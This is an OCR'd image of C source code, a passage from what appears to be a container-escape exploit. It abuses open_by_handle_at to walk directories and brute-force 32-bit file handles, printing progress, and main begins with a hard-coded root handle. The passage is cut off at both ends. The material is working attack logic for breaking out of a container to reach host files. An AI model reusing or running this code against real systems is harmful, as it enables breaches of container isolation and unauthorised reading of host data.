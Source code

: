 ```c
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }

  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}

int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
      0,
      0
    }
```
